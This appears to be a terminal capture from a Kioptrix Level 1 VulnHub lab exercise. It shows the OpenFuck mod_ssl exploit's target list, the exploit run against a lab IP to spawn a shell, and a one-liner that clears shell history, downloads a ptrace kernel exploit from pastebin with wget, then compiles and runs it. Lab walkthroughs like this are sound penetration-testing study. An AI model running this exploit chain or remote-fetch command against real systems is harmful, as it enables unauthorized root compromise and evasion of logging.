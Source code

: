 ```bash
	0x06 - Conectiva 4.1 (apache-1.3.9)
	0x07 - Conectiva 6 (apache-1.3.14)
	0x08 - Conectiva 7 (apache-1.3.12)
	0x09 - Conectiva 7 (apache-1.3.19)
	0x0a - Conectiva 7/8 (apache-1.3.26)
	0x0b - Conectiva 8 (apache-1.3.22)
	0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)
  ...
	0x62 - RedHat Linux 7.0-7.1 update (apache-1.3.22-5.7.1)
	0x63 - RedHat Linux 7.0-Update (apache-1.3.27-1.7.1)
	0x64 - RedHat Linux 7.1 (apache-1.3.19-5)1
	0x65 - RedHat Linux 7.1 (apache-1.3.19-5)2
	0x66 - RedHat Linux 7.1-7.0 update (apache-1.3.22-5.7.1)
	0x67 - RedHat Linux 7.1-Update (1.3.22-5.7.1)
	0x68 - RedHat Linux 7.1 (apache-1.3.22-src)
	0x69 - RedHat Linux 7.1-Update (1.3.27-1.7.1)
	0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
	0x6c - RedHat Linux 7.2-Update (apache-1.3.22-6)
	0x6d - RedHat Linux 7.2 (apache-1.3.24)
	0x6e - RedHat Linux 7.2 (apache-1.3.26)
  ...

Fuck to all guys who like use lamah ddos. Read SRC to have no surprise
┌─[✗]─[atom@atom-vmwarevirtualplatform]─[~/Documents/vulnhub/kioptrix1/OpenFuck]
```

```bash
 
┌─[atom@atom-vmwarevirtualplatform]─[~/Documents/vulnhub/kioptrix1/OpenFuck]
└──╼ $./open 0x6b 192.168.132.129 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8068
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
bash-2.05$ unset HISTFILE; cd /tmp; wget https://pastebin.com/raw/C7v25Xr9 -O ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 
--23:15:45--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   2.59 KB/s

23:15:49 (2.59 KB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 1055
[+] Waiting for signal
```